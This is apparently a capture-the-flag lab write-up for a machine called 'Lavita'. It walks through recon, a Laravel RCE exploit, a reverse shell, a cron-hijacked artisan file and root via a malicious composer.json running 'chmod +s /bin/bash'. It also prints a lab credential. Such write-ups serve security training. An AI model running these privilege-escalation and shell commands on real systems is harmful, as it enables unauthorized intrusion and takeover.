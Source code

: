 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lavita
tags: ["CVE", "pspy"]
---
```


**Start 14:00 28-04-2025**

---
```
Scope:
192.168.241.38
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV lavita -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
|_http-title: W3.CSS Template
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80/TCP - HTTP

![](../../../assets/063d3a1e932f52a0c9e377da34bf35a3.png)

This page featured a lot of name, possibly some of them could be usernames.

![](../../../assets/6565ba5586530e44780f7666ff70a5bd.png)

I went ahead and ran a `feroxbuster` scan.

![](../../../assets/99a37b51983c2869170cc8c315703144.png)

I was able to find the version of **Laravel** running on one of the endpoints:

![](../../../assets/32c81f59d6933afa8d98d07283208def.png)

There are some existing RCE PoC's for versions up to `8.4.2`:

![](../../../assets/001923257ed63456e578515c0d0f6f29.png)

However by itself the exploit didn't work:

![](../../../assets/8a116de097d8c10f5f29216c2f373663.png)

There is an `/image_upload` endpoint, meaning we might be able to upload our malicious file there, however it is beyond a login.

![](../../../assets/ff0ee5e5a6a827256f1630920220f894.png)

## Image Upload - FAIL

I went ahead and created an account and logged in

![](../../../assets/f14be70897b27ff3fa29e7e3546d054b.png)

I tried out uploading a random picture:

![](../../../assets/861213f902061d7aa1ae5ef3aae4120b.png)

![](../../../assets/5c605a9091ff950479b9b1717208eee0.png)

`.png` files got accepted, I thus tried to upload a `webshell.png` file, which I would intercept with `burp`, and afterwards change to `webshell.php` again.

![](../../../assets/42f31e70c9fd959433945ab7169c2783.png)

However this wouldn't work either.

## RCE exploit

Perhaps the exploit was right all along, let's look at it closer:

![](../../../assets/c4024d797a9d6f7d80b177d48a3e0220.png)

Let's see if we can access this endpoint.

![](../../../assets/33b42abfa4bc4df977cc3172e06615bf.png)

Holy shit we can! 

However this is only the 1st part since for the PoC we still need to find the `path_log`:

![](../../../assets/057a9484e21d1943406df1640cfb610f.png)

So let's see if we can find anything else:

![](../../../assets/35c2e76cc3d6ed2c94a6aee13e64abf0.png)

I found an even better version of this exploit [here](https://github.com/joshuavanderpoll/CVE-2021-3129?source=post_page-----12bfd272e9cf---------------------------------------):

![](../../../assets/8454f8b158d09cd4808403c97f7f902e.png)

![](../../../assets/2dc5e7f5327fe05d2e461cf23e94ded4.png)

![](../../../assets/2c6527ba3fee73be6e18c8b5c92529dd.png)

Awesome!

:::note
For some reason the exploit would only give an output on the second `chain`.
:::

I now went on with trusty `busybox` to get me a reverse shell:

![](../../../assets/1586a1fa860dbe5ce3ea707e1007e8f3.png)


![](../../../assets/de736325b7a29884263f1c7ee790dd44.png)

![](../../../assets/99f0c6b53cd4103b8a8e54b32f04bce5.png)

## Foothold
### Shell as www-data

Now that we had a shell as *www-data* I went on to get the first flag

### local.txt

![](../../../assets/034b710a03c4f47bd6327e888a4e798c.png)

## Enumeration

![](../../../assets/a74d099bf662929e9ea44218578b85ef.png)

No quick wins.

![](../../../assets/72cc42ce95020c3f6a8829a07f5dbb4c.png)

I ran `linpeas.sh` and found some interesting stuff:

![](../../../assets/a3ee29c27283c987d88ce3a5f4214539.png)

```
lavita
sdfquelw0kly9jgbx92
```

And we find `mysql` running:

![](../../../assets/783ac1d89f62168f2a95b194cf318e57.png)

Let's try it out.


## Privilege Escalation
### MySQL

![](../../../assets/41cbb2eff9625fdbe53547e7eb6f1267.png)

![](../../../assets/7c5fc17c1bbffd313897d041a4eb4a47.png)

This is just our account, so this is not useful.

### pspy32

I transferred over `pspy32` to see the running processes, since this command runs indefinitely I ran it as follows:

```bash
timeout 60s ./pspy32
```

![](../../../assets/fc6b5a3fd526ea66f4b0433d10818a3d.png)

We find the following running under the *skunk* user.

![](../../../assets/25ff8f46371f146376b1057c11981afc.png)

### Replacing artisan

We will now attempt to replace the original `artisan` file with the `php-reverse-shell.php` file:

![](../../../assets/4fb9f0d2c86990f981d7f653f9e14b0e.png)

:::important
Since it will be executed as a binary, it needs the `#!/usr/bin/env php` just like the original file.
:::

![](../../../assets/58f0ab86ab43457f5118b26943e2db68.png)

Don't forget to use `chmod +x` on the file!!!

![](../../../assets/c504026db45871f18054abb23e098e3c.png)

Awesome! Now we have access as *skunk*, and it appears that he is part of the **sudo** group!!!

![](../../../assets/a3ae727ff64e2f50ca060bf8a3980d0c.png)

I look up the `composer` binary:

![](../../../assets/10cf42719faa37a75df4900d17441989.png)

We can get *root* by changing the `composer.json` file.

## Shell as root

First we need to do the following in the *www-data* shell:

```bash
mv composer.json composer.json.bak
echo '{"scripts":{"x":"chmod +s /bin/bash"}}' > composer.json
```

![](../../../assets/79dcf838918a387977f98188706d1db4.png)

Then we do the following as *skunk*:

```bash
sudo -u root /usr/bin/composer --working-dir\=/var/www/html/lavita run-script x
/bin/bash -p
```

![](../../../assets/f507b58014b1af9ed14597c1c1c0265a.png)

And we succesfully get *root*.

### proof.txt

![](../../../assets/67f8494bf638432fb6133c5e556385e4.png)

---

**Finished 16:08 28-04-2025**

[^Links]: [[OSCP Prep]]

